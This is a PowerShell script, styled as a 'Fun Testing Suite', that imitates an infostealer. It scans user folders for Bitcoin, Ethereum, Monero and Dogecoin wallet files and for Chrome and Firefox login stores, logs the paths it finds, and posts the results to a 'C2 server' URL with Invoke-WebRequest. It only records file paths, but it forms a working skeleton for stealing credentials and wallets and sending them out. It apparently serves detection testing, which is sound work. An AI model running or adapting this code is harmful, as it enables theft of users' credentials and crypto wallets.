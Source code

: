 function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ " -ForegroundColor Cyan
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |" -ForegroundColor Cyan
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |" -ForegroundColor Cyan
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |" -ForegroundColor Cyan
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|" -ForegroundColor Cyan

    Write-Host "      🚀 Welcome to the Fun Testing Suite! 🚀"
    Write-Host "      (No humans, wallets, or browsers harmed!)"
    Write-Host ""
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the simulated info file
$infoFilePath = "controlled_test_results.txt"

# Function to simulate searching for wallet files
function Search-ForWallets {
    Write-Host "[🔍] Searching for Crypto Wallet Files in the simulation..."
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Simulated Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Write-Host "  [✅] Wallet file found at: $path"
            Add-Content -Path $infoFilePath -Value "Simulated wallet: $path"
        } else {
            Write-Host "  [❌] No wallet found at: $path"
        }
    }
}

# Function to simulate searching for browser credential files
function Search-ForBrowserCredentials {
    Write-Host "[🔍] Scanning for Browser Credential Files..."
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Simulated Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Write-Host "  [✅] Found Chrome credentials: $chromePath"
        Add-Content -Path $infoFilePath -Value "Simulated Chrome credentials: $chromePath"
    } else {
        Write-Host "  [❌] No Chrome credentials found."
    }

    if (Test-Path $firefoxPath) {
        Write-Host "  [✅] Found Firefox credentials: $firefoxPath"
        Add-Content -Path $infoFilePath -Value "Simulated Firefox credentials: $firefoxPath"
    } else {
        Write-Host "  [❌] No Firefox credentials found."
    }
}

# Function to simulate sending information to a C2 server
function Send-InfoToC2Server {
    Write-Host "[🚀] Sending collected information to the controlled C2 server..."
    $c2Url = "http://testserver.local/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to simulate data transfer
    try {
        Invoke-WebRequest -Uri $c2Url -Method Post -Body $data -ErrorAction Stop
        Write-Host "[✅] Data successfully sent to the controlled server!"
    } catch {
        Write-Host "[❌] Failed to send data. Check your network or server."
    }
}

# Main execution flow
Write-Host "[⚙️] Starting the Fun Testing Suite..."
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server
Write-Host "[🏁] Simulation complete! Check $infoFilePath for results."
